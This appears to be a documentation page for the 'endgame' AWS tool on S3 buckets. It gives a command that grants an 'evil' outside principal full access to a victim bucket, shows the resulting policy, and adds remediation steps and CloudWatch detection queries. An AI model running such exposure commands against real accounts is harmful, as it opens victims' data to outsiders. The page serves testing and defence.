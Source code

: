 # S3 Buckets

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:evil

endgame expose --service s3 --name test-resource-exposure
```

* To verify that the S3 bucket has been shared with the public, run the following from the victim account:

```bash
aws s3api get-bucket-policy --bucket test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The response of the `get-bucket-policy` command will return the below. Observe how the Evil Principal (`arn:aws:iam::999988887777:evil`) is granted full access to the S3 bucket.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:evil\"},\"Action\":\"s3:*\",\"Resource\":[\"arn:aws:s3:::test-resource-exposure\",\"arn:aws:s3:::test-resource-exposure/*\"]}]}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Leverage Strong Resource-based Policies**: Follow the resource-based policy recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#leverage-strong-resource-based-policies)
* **Trusted Accounts Only**: Ensure that  S3 Buckets are only shared with trusted accounts, and that the trusted accounts truly need access to the S3 Bucket.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your S3 Buckets**: Tightly control access to the following IAM actions:
      - [s3:GetBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_GetBucketPolicy.html): _Grants permission to return the policy of the specified bucket. This includes information on which AWS accounts and principals have access to the bucket._
      - [s3:ListAllMyBuckets](https://docs.aws.amazon.com/AmazonS3/latest/API/API_ListBuckets.html): _Grants permission to list all buckets owned by the authenticated sender of the request_
      - [s3:PutBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_PutBucketPolicy.html): _Grants permission to add or replace a bucket policy on a bucket._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='s3.amazonaws.com' AND eventName='PutBucketPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='s3.amazonaws.com' AND (eventName='PutBucketPolicy' and @message like 'Endgame')
```
(More specific queries related to the policy contents do not work due to how CWL parses the requestParameters object on these calls)

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws s3api put-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/put-bucket-policy.html)
- [aws s3api get-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/get-bucket-policy.html)